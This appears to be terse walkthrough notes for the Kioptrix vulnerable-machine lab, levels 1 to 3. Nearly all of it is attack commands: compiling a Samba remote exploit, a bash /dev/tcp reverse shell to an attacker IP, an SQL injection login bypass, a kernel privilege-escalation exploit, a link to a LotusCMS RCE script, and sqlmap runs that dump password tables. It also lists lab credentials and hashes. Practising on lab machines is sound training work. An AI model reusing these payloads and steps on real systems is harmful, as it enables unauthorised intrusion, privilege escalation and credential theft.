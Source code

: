 #### --Level 1-- 
enum4linux      192.168.139.128

##### searchsploit Samba 2.2

gcc /usr/share/exploitdb/exploits/multiple/remote/10.c -o exploitsamba

./exploitsamba -b 0 192.168.139.128

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

#### --Level 2--

SQL injection: admin'or '1'-'1

Welcome to the Basic Administrative Web Console

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

##### searchsploit Linux 2.6 Privilege Escalation CentOS

cp /usr/share/exploitdb/exploits/linux/local/9545.c 

localhost", "john", "hiroshima") or die(mysql_error());

mysql -u john -p
Enter password: hiroshima
show databases;

#### --Level 3--

nikto -host 192.168.139.131

##### LotusCMS-Exploit

https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh

	$GLOBALS["gallarific_mysql_username"] = "root";
	$GLOBALS["gallarific_mysql_password"] = "fuckeyou";

	dreg 		0d3eccfb887aabd50f243b3f155c0f85 Mast3r
	loneferret 	5badcaf789d3d1d09794d8f021f40f0e starwars

root@kali:~# cd /usr/share/wordlists/
root@kali:/usr/share/wordlists# gunzip rockyou.txt.gz 

loneferret@Kioptrix3:~$ export TERM=xterm   
Update: /etc/sudoers   
Then sudo su  

Other method:  
add hostname,   

http://kioptrix3.com/gallery/  

Search db:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs
Check table:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --tables -D gallery
Dump password:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump
